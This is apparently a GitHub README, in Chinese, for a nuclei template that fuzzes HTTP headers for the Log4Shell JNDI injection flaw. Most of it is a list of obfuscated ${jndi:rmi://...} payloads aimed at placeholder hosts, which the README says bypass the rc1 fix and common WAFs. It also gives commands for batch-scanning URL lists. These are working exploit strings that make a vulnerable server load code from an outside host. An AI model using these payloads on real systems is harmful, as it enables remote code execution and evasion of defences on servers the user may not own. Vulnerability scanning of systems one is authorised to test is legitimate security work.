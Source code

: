 # log4j-fuzz-head-poc
针对 log4j来批量fuzzz 请求头检测，有效检测一些头部存在的安全风险，nuclei默认使用interactsh

添加了绕过rc1的poc

也同时能绕过常见主流waf拦截的poc
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


# 使用
```
/nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 30 单个检测  速率为30

/nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 30   批量检测  速率为30
```

![image](https://user-images.githubusercontent.com/50769953/145665694-21632dd2-7336-474b-80ed-9cdba4919898.png)

